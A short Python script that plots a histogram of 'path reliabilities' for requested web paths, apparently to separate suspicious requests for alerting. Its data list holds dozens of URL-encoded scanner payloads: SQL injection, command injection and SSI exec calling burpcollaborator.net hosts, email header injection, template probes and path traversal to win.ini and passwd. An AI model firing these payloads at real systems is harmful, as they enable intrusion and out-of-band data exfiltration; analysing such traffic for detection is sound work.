

Here is the Python script that generated this plot:
import numpy as np
from matplotlib import pyplot as plt

path_reliabilities_tuple = [('history.php', 1.0), ('transactions.php', 1.0), ('api.php', 1.0), ('userinfo.php', 0.2), ('portal.php', 0.6), ('login.php', 0.2), ('logout.php', 0.2), ('Pe-icon-7-stroke.woff', 1.0), ('fontawesome-webfont.woff', 1.0), ('glyphicons-halflings-regular.woff2', 1.0), ('clientaccesspolicy.xml', 0.2), ('crossdomain.xml', 0.2), ('robots.txt', 0.2), ('trace.axd', 0.2), ('/', 0.8), ('api.php', 1.0), ('kl5gi89o8z', 0.19999999999999998), ("(select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%20ihiij%20SYSTEM%20%22http%3A%2F%2F6x4iekwyo4wikcfvx4ksle4u1l7d619p3cv0k.burpcollab'%7C%7C'orator.net%2F%22%3E%25ihiij%3B%5D%3E')%2C'%2Fl')%20from%20dual)", 0.19999999999999998), ("1'%7C%7C(select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%20ihiij%20SYSTEM%20%22http%3A%2F%2Fvrq789qnitq7e19krtehf3yjva120q4ey1qpf.burpcollab'%7C%7C'orator.net%2F%22%3E%25ihiij%3B%5D%3E')%2C'%2Fl')%20from%20dual)%7C%7C'", 0.19999999999999998), ("1%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Ct0u5h7zlrrz5nzii0rnfo17h48a09o0eo8b0zp.burpcollab'%2B'orator.net%5Cuku'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("1'%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5C3jnf0hiva1if691sj16p7bqrnitasyjp7jubi0.burpcollab'%2B'orator.net%5Cqwf'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("1)%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Cwnn84amoeum8a25lnuaib4ukrbx3wrnjbdy5mu.burpcollab'%2B'orator.net%5Cxxu'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("1')%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Czwzbddvrnxvbj5eowxjlk73n0e665uwnkh79vy.burpcollab'%2B'orator.net%5Chwb'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.19999999999999998), ("(select%20load_file('%5C%5C%5C%5Cl6sxnz5dxj5xtroa6jt7utd9a0gsfg6iuch45t.burpcollaborator.net%5C%5Cdek'))", 0.19999999999999998), ("1'%2B(select%20load_file('%5C%5C%5C%5Cdfwpwre56bep2jx2fb2z3lm1jspko8fb35qxem.burpcollaborator.net%5C%5Cici'))%2B'", 0.19999999999999998), ("1%20into%20outfile%20'%5C%5C%5C%5Cqnh244mieom2aw5fnoacbyuer5xxwlnpbjybm0.burpcollaborator.net%5C%5Cbjt'%3B%20--%20", 0.19999999999999998), ("1'", 0.39999999999999997), ("1''", 0.39999999999999997), ('(select*from(select(sleep(20)))a)', 0.19999999999999998), ('1%2B(select*from(select(sleep(20)))a)%2B', 0.19999999999999998), ('1%20and%20(select*from(select(sleep(20)))a)--%20', 0.19999999999999998), ("1%20waitfor%20delay'0%3A0%3A20'--", 0.19999999999999998), ("1)waitfor%20delay'0%3A0%3A20'--", 0.19999999999999998), ("1%2C0)waitfor%20delay'0%3A0%3A20'--", 0.19999999999999998), ('150470837%20or%201535%3D01535', 0.19999999999999998), ('189325721%20or%204844%3D4851', 0.19999999999999998), ('198355041%20or%207934%3D07934--%20', 0.19999999999999998), ('129916913%20or%208239%3D8241--%20', 0.19999999999999998), ('1%20and%206596%3D06596', 0.19999999999999998), ('1%20and%202288%3D2297', 0.19999999999999998), ('1%20and%202139%3D02139--%20', 0.19999999999999998), ('1%20and%205132%3D5136--%20', 0.19999999999999998), ("195100646'%20or%20'3006'%3D'3006", 0.19999999999999998), ("139580059'%20or%20'7228'%3D'7231", 0.19999999999999998), ("187196161'%20or%206666%3D6666--%20", 0.19999999999999998), ("135703212'%20or%209800%3D9806--%20", 0.19999999999999998), ("1'%20and%20'4216'%3D'4216", 0.19999999999999998), ("1'%20and%20'5094'%3D'5100", 0.19999999999999998), ("1'%20and%207560%3D7560--%20", 0.19999999999999998), ("1'%20and%203493%3D3499--%20", 0.19999999999999998), ('1%22', 0.19999999999999998), ('rhqpm$%7B880*846%7Dhewpa', 0.19999999999999998), ('vyzbt%7B%7B205*653%7D%7Dqcxn5', 0.19999999999999998), ("1%7D%7Dsotzl'%2F%22%3Cwzff3", 0.19999999999999998), ("1%25%7Deu35w'%2F%22%3Cqoo15", 0.19999999999999998), ("1eeaqd%25%3Epg2e2'%2F%22%3Cigeng", 0.19999999999999998), ("eval(compile('for%20x%20in%20range(1)%3A%5Cn%20import%20time%5Cn%20time.sleep(20)'%2C'a'%2C'single'))", 0.19999999999999998), ("(function()%7Bif(typeof%20sfcu5%3D%3D%3D'undefined')%7Bvar%20a%3Dnew%20Date()%3Bdo%7Bvar%20b%3Dnew%20Date()%3B%7Dwhile(b-a%3C20000)%3Bsfcu5%3D1%3B%7D%7D())", 0.19999999999999998), ("1'%2B(function()%7Bif(typeof%20m5m7u%3D%3D%3D%22undefined%22)%7Bvar%20a%3Dnew%20Date()%3Bdo%7Bvar%20b%3Dnew%20Date()%3B%7Dwhile(b-a%3C20000)%3Bm5m7u%3D1%3B%7D%7D())%2B'", 0.19999999999999998), ("%22--%3E'--%3E%60--%3E%3C!--%23set%20var%3D%228wu%22%20value%3D%227vtjcluzm5%22--%3E%3C!--%23set%20var%3D%22ayw%22%20value%3D%229xvlenw1o7%22--%3E%3C!--%23echo%20var%3D%228wu%22--%3E%3C!--%23echo%20var%3D%22ayw%22--%3E%3C!--%23exec%20cmd%3D%22nslookup%20-q%3Dcname%20uig6z8hm9sh6500jis5g62pim9s1rpjn7hu9iy.burpcollaborator.net%22%20--%3E", 0.19999999999999998), ('1%0D%0ABCC%3As0t4h6zkrqz4nyih0qneo07g47az9n1gpac20r@burpcollaborator.net%0D%0Atdw%3A%20z', 0.19999999999999998), ('1%3E%0D%0ABCC%3Av517m94nwt47s1nk5tsht3cj9af2eq6kueh65v@burpcollaborator.net%0D%0Ahah%3A%20x', 0.19999999999999998), ('21zkdkwij1', 0.2), ('api.phpsnu0y8ukoj', 0.2), ("l')%20from%20dual)", 0.2), ("l')%20from%20dual)%7C%7C'", 0.2), ("api.php%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Cosk092rgjmr0fuadsmfagwzcw32v1js9g08nybn.burpcollab'%2B'orator.net%5Cauz'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("api.php'%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Co7w0o26gym60uupd7muavwecb3hvgj7av1nodc2.burpcollab'%2B'orator.net%5Cdgh'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("api.php)%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5Cc4holq34va3orim14aryskb08rejd74zsqkda1z.burpcollab'%2B'orator.net%5Cctq'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("api.php')%3Bdeclare%20@q%20varchar(99)%3Bset%20@q%3D'%5C%5C121djf1ttz1dp7kq2zpnq99p6gc8bw2pqgi38rx.burpcollab'%2B'orator.net%5Cvsj'%3B%20exec%20master.dbo.xp_dirtree%20@q%3B--%20", 0.2), ("(select%20load_file('%5C%5C%5C%5C345flh3vv13fr9ms41rpsbbr8ieady40srkea2z.burpcollaborator.net%5C%5Cotz'))", 0.2), ("api.php'%2B(select%20load_file('%5C%5C%5C%5C7t1jalszk5sjgdbwt5gthf0vxm3e22t5hw9jz7o.burpcollaborator.net%5C%5Cdbg'))%2B'", 0.2), ("api.php'", 0.4), ("api.php''", 0.4), ("api.php'(select*from(select(sleep(20)))a)'", 0.2), ("api.php'%2B(select*from(select(sleep(20)))a)%2B'", 0.2), ("api.php'%20and%20(select*from(select(sleep(20)))a)--%20", 0.2), ('api.php%2C(select*from(select(sleep(20)))a)', 0.2), ("api.php'%20waitfor%20delay'0%3A0%3A20'--", 0.2), ("api.php')waitfor%20delay'0%3A0%3A20'--", 0.2), ("api.php'%2C0)waitfor%20delay'0%3A0%3A20'--", 0.2), ("api.php29182204'%20or%20'8314'%3D'8314", 0.2), ("api.php13634617'%20or%20'4416'%3D'4424", 0.2), ("api.php53379022'%20or%209234%3D9234--%20", 0.2), ("api.php48549457'%20or%204837%3D4845--%20", 0.2), ("api.php'%20and%20'2811'%3D'2811", 0.2), ("api.php'%20and%20'8528'%3D'8531", 0.2), ("api.php'%20and%202382%3D2382--%20", 0.2), ("api.php'%20and%204777%3D4786--%20", 0.2), ('api.php%22', 0.2), ('mrd3y$%7B535*665%7Dkn3ud', 0.2), ('s1s5h%7B%7B707*357%7D%7Dgodon', 0.2), ('%22%3Cymj6t', 0.2), ('%22%3Cv2fud', 0.2), ('%22%3Cthyy3', 0.2), ("api.php'%2Bsleep(20.to_i)%2B'", 0.2), ("api.php'%2Beval(compile('for%20x%20in%20range(1)%3A%5Cn%20import%20time%5Cn%20time.sleep(20)'%2C'a'%2C'single'))%2B'", 0.2), ("eval(compile('for%20x%20in%20range(1)%3A%5Cn%20import%20time%5Cn%20time.sleep(20)'%2C'a'%2C'single'))", 0.2), ("api.php'.sleep(20).'", 0.2), ('api.php%7B$%7Bsleep(20)%7D%7D', 0.2), ('57ahoj6xy36hubpu73urvdetbkhcg08ozgm6av.burpcollaborator.net', 0.2), ('%3Fapi.php', 0.2), ('api.php%7Cnslookup%20-q%3Dcname%20ylna2ckqcwka843nlw8k96smpdv5utqhh94zso.burpcollaborator.net.%26', 0.2), ("api.php'%22%600%26nslookup%20-q%3Dcname%20b3fnkp23u92nqhl039qxrjaz7qdic69u0mncb1.burpcollaborator.net.%26%60'", 0.2), ("api.php%26nslookup%20-q%3Dcname%20435gki2wu22gqalt32qqrcas7jdbcz7nyfl59u.burpcollaborator.net.%26'%5C%22%600%26nslookup%20-q%3Dcname%20435gki2wu22gqalt32qqrcas7jdbcz7nyfl59u.burpcollaborator.net.%26%60'", 0.2), ("api.php%7Cecho%20qa04v11fk2%20k7s2an60gl%7C%7Ca%20%23'%20%7Cecho%20qa04v11fk2%20k7s2an60gl%7C%7Ca%20%23%7C%22%20%7Cecho%20qa04v11fk2%20k7s2an60gl%7C%7Ca%20%23", 0.2), ('api.php%26echo%20sezkl6csmh%20z8efpyewj5%26', 0.2), ('api.php%22%7Cecho%204l5k4ad3cs%20gwx0f9gg0x%20%7C%7C', 0.2), ("api.php'%7Cecho%20o65o7j5n3l%20edi6ed9hm1%20%23xzwx", 0.2), ("api.php%7Cping%20-n%2021%20127.0.0.1%7C%7C%60ping%20-c%2021%20127.0.0.1%60%20%23'%20%7Cping%20-n%2021%20127.0.0.1%7C%7C%60ping%20-c%2021%20127.0.0.1%60%20%23%5C%22%20%7Cping%20-n%2021%20127.0.0.1", 0.2), ('api.php%7Cping%20-c%2021%20127.0.0.1%7C%7Cx', 0.2), ('api.php%26ping%20-n%2021%20127.0.0.1%26', 0.2), ("api.php'%7Cping%20-c%2021%20127.0.0.1%20%23", 0.2), ('api.php%22%7Cping%20-n%2021%20127.0.0.1%20%7C%7C', 0.2), ('..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cwindows%5Cwin.ini', 0.2), ('c%3A%5Cwindows%5Cwin.ini', 0.2), ('api.php..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cwindows%5Cwin.ini', 0.2), ('..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5C..%5Cwindows%5Cwin.ini%00api.php', 0.2), ('passwd', 0.2), ('qtk%3E', 0.2), ('ouu%3E', 0.2), ('api.php%5D%5D%3E%3E%3C', 0.2), ("api.php'%2B(function()%7Bif(typeof%20lrzcz%3D%3D%3D%22undefined%22)%7Bvar%20a%3Dnew%20Date()%3Bdo%7Bvar%20b%3Dnew%20Date()%3B%7Dwhile(b-a%3C20000)%3Blrzcz%3D1%3B%7D%7D())%2B'", 0.2), ("%22--%3E'--%3E%60--%3E%3C!--%23set%20var%3D%22b9a%22%20value%3D%22a89mpo72z8%22--%3E%3C!--%23set%20var%3D%22dbc%22%20value%3D%22caborq941a%22--%3E%3C!--%23echo%20var%3D%22b9a%22--%3E%3C!--%23echo%20var%3D%22dbc%22--%3E%3C!--%23exec%20cmd%3D%22nslookup%20-q%3Dcname%20xvw9cbupmvu9i3dmvvijj52lzc544swqkhc42sr.burpcollaborator.net%22%20--%3E", 0.2), ('api.php%0D%0ABCC%3Aii4uzwha9ghu5o07ig546qp6mxsprdj67xzkp8e@burpcollaborator.net%0D%0Auoc%3A%20b', 0.2), ('api.php%3E%0D%0ABCC%3Akymwfyxcpixwlqg9yil6ms582z8r7fz9n0fn5bu@burpcollaborator.net%0D%0Avvf%3A%20h', 0.2), ('api.php', 0.2), ('passwd', 0.39999999999999997), ('passwd%00api.php', 0.19999999999999998)]
path_reliabilities = []
for t in path_reliabilities_tuple:
    path_reliabilities.append(t[1])

print(path_reliabilities)
val_under = np.percentile(path_reliabilities, 60)
print(val_under)
alert_paths =[]
no_alert_paths = []
for t in path_reliabilities_tuple:
    if t[1]<=val_under:
        print(t)
        alert_paths.append(t[1])
    else:
        no_alert_paths.append(t[1])

plt.hist([alert_paths,no_alert_paths], color=['Red', 'Blue'],bins=10)
plt.title("Path Reliabilities")
plt.xlabel("Reliability")
plt.ylabel("Number of different Resources")
plt.show()

